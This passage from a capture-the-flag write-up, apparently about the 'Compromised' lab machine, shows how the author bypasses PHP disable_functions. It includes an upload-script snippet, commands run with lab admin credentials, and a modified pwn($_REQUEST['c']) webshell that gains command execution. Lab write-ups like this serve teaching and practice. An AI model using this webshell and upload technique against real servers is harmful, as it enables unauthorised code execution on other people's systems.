 
### Path #2: Bypass disable_functions

#### POC

I [wrote](/2019/08/02/bypassing-php-disable_functions-with-chankro.html) about
[Chankro](https://github.com/TarlogicSecurity/Chankro) a while back and how it
can bypass `disable_functions` in PHP. Unfortunately for this case, it [relies
on](https://github.com/TarlogicSecurity/Chankro/blob/7b6e844e18f6812beb18db4b67b246edcec04b84/chankro.py#L70)
`putenv` in PHP, which is listed as blocked in the `phpinfo` output. Still,
there are other ways to bypass these filters. For example, something like
[this](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass) to get
execution. It’s a webshell that goes through a bunch of work-arounds to get
execution without using any of the functions that get disabled but rather
exploiting a bug in PHP. At the top of the PHP code, it calls `pwn("uname
-a");`.

I’ll update the exploit script to read in and send the shell from the GitHub:

    
    
    with open("exploit.php", "r") as f:
        exploit = f.read()
    
    files = {
            'vqmod': (rand + ".php", exploit, "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }
    

On running it, it prints the output of `uname`:

    
    
    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/PMBX7.php?c=id
    Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    

That’s the output of `uname -a`.

#### Webshell

I’ll replace `uname` with a payload that runs based on the request:

    
    
    #pwn("uname -a");
    pwn($_REQUEST['c']);
    

I used `c` because the exploit POC uses `c` in it’s webshell. When I run this,
it works:

    
    
    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php?c=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
